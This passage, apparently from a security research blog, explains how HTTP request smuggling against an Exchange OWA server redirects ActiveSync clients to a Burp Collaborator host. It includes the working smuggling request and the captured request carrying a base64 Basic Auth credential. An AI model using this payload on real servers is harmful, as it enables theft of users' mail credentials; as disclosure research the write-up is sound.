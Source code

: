 Are you starting to get excited yet? If an Exchange server is configured to use ActiveSync with Basic Auth, users are sending username and passwords in every single HTTP request. As we are able to perform HRS, we might be able to intercept these credentials!

#### Harvesting and (ab)using credentials

We currently know that a successful HRS attack can redirect a victim to a rogue server, that mail clients maintain the request method and most likely also the headers and body, and we know that victims sent their base64 encoded credentials in every ActiveSync request. This means we're just one step away from capturing these credentials.

Capturing request headers on our rogue server can be done in various ways. For this proof-of-concept I chose to use [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator){:target="_blank"}{:rel="noopener noreferrer"}, which acts as a catch all server for HTTP and various other protocols.

I altered the initial HRS request to redirect the victim to my Burp Collaborator URI instead of `hacker.com`. The final request is included below

{% highlight http %}
POST /owa/auth/logon.aspx?2whS=929722944 HTTP/1.1
 Transfer-Encoding: chunked
Connection: keep-alive
Host: owa.customer.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: nl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 165

44
6kqfa=x&url=https%3a%2f%2fowa.customer.com%2fowa%2f&reason=0&whfto=x
0

GET https://xcdf8ar1e2dnaqc1t7ebdyt8gzp5e.burpcollaborator.net/ HTTP/1.1
X-Ignore: 1
{% endhighlight %}
   
A few moments later, as expected, Burp Collaborator catches the ActiveSync request from the victim 🎉.

{% highlight http %}
POST /Microsoft-Server-ActiveSync?User=bob@customer.com&DeviceId=e1568c571e684e0fb1724da85d215dc0&DeviceType=iPhone&Cmd=FolderSync  HTTP/1.1
Host: xcdf8ar1e2dnaqc1t7ebdyt8gzp5e.burpcollaborator.net
Content-Type: application/vnd.ms-sync.wbxml
Accept: */*
Accept-Language: nl-nl
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
MS-ASProtocolVersion: 14.1
User-Agent: Apple-iPhone11C8/1804.70
Authorization: Basic Y3VzdG9tZXIuY29tXGJvYjpodW50ZXIy
Content-Lengh: 13
X-MS-PolicyKey: 0

jVR0
{% endhighlight %}
    